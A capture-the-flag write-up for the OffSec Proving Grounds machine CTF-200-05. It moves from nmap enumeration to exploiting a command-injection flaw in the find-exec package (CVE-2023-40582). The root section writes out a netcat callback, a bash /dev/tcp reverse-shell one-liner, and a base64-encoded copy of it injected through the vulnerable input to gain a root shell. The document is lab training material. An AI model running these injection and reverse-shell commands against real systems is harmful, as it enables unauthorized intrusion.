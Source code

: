 ```yaml
---
title: CTF-200-05 (OffSec. Proving Grounds)
image: /assets/writeups/trace8.jpg
description: Write-up of CTF-200-05 Machine
date: 2023-12-28
categories: [proving grounds]
tags: [find-exec, CVE, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Nmap scan report for 192.168.249.36 (192.168.249.36)
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Node.js Express framework
|_http-title: Command Guess Game
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 3000:

Visiting Port 3000 we get greeted by this page


![port3000.png](../../static/images/writeups/2023-12-27-CTF-200-05/port3000.png)

nothing too crazy here it just checks if the command exist,whats important here is to look at the bottom part of the webpage where it says `find-exec v1.0.2`

![find-execvuln.png](../../static/images/writeups/2023-12-27-CTF-200-05/find-execvuln.png)

that package is vulnerable to `CVE-2023-40582` [Command Injection in find-exec | CVE-2023-40582 | Snyk](https://security.snyk.io/vuln/SNYK-JS-FINDEXEC-5876637)

> POC

```js
const findexec = require('find-exec');
findexec("; touch hacked")
```

so what it means is we can do something like `cat;id` and after the cat is executed it executes the id command too. Using that we get the reverse shell 

## Root User:

Initially I ran just simple `cat; nc <IP> 7777` which did got a callback but wasn't responsive so it must be `-e` switch of nc causing the problem so we can just encode the payload and send it again

```bash
echo "/bin/bash -i >& /dev/tcp/<IP>/7777 0>&1" | base64
L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=
```

and running that,

```bash
cat;echo "L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=" | base64 -d | bash
```

we get a perfect root shell

![perfectrootshell.png](../../static/images/writeups/2023-12-27-CTF-200-05/perfectrootshell.png)




